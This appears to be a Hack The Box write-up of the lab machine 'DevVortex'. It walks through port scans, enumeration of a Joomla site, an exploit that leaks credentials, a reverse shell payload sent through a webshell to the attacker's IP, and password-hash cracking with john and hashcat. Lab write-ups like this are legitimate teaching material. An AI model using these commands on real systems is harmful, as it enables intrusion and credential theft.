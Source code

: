 ```yaml
---

title: "DevVortex"
date: 2023-11-29T11:30:03+00:00
tags: ["web","windows","joomla"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/Devvortex.png"
comments: false
description: "This is a friendly linux machine that is vulnerable due a low version of Joomla db."

---
```


## Room Information

- Room name: DevVortex
- Difficulty level: Easy
- Room link: [https://app.hackthebox.com/machines/](https://app.hackthebox.com/machines/bounty)devvortex

![Untitled](/HTB/Devvortex.png)

## Tools Used

- Nmap
- wfuzz
- searchsploit
- gobuster
- hascat
- john

## Port Scanning

Other room, other port scan.

```bash
map -p- -sS --open --min-rate 5000 -n -Pn -oG allPorts 10.10.11.242
```

![Untitled](/HTB/devvortex-1.png)

```bash
nmap -p 22,80 -sCV --min-rate 5000-n -Pn -oN filtered 10.10.11.242
```

![Untitled](/HTB/devvortex-2.png)

Showing this scan, we can say that the vulnerability 99% is inside the website… So lest discover info of port 80.

 

## Enumeration

First I did was a subdomain enumeration to discard things, and I found one (dev.devvortex.htb)..

```bash
gobuster vhost -u devvortex.htb -w /usr/share/wordlists/dirbuster/dns/subdomains-top1million-5000.txt --append-domain -t 40 -k
```

other posibiliti…

```bash
ffuf -w /usr/share/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.devvortex.htb" -u http://devvortex.htb/ -mc 200-299
```

![Untitled](/HTB/devvortex-3.png)

Then I did a directory enumeration to saw if the web contains something interesting. And I saw an administrator panel which was a loguin panel of a joomla database.

![Untitled](/HTB/devvortex-4.png)

Also I discovered this file which contained the joomla version. So first I did since saw this was searching a bypass or something for this db. And I found a lot of them. 

![Untitled](/HTB/devvortex-5.png)

## Exploiting

I used search sploit for searching for exploits and I use this below:

![Untitled](/HTB/devvortex-6.png)

Then I logged with the above credential and I had access to de db panel such as super user…

![Untitled](/HTB/devvortex-7.png)

I found this post on hacktricks, and I followed the guide. Then I gain access to the machine as ww-data 👹

[Joomla](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/joomla)

![Untitled](/HTB/devvortex-8.png)

```bash
...?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.130/4444 0>&1'
```

![Untitled](/HTB/devvortex-9.png)

## Escalating Privileges

Then I throw a [`linpeas.sh`](http://linpeas.sh) instance and I show that there was a db running on the backend.. And I logged in using the lewis db credentials I got at first…

Then in the joomla db I found a table called ...._users that contained the ssh users and passwd hashed. So I start decoding them with hashcat and john:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

or 

```bash
hashcat -m 3200 -a 0 -w 4 hash /usr/share/wordlists/rockyou.txt
```
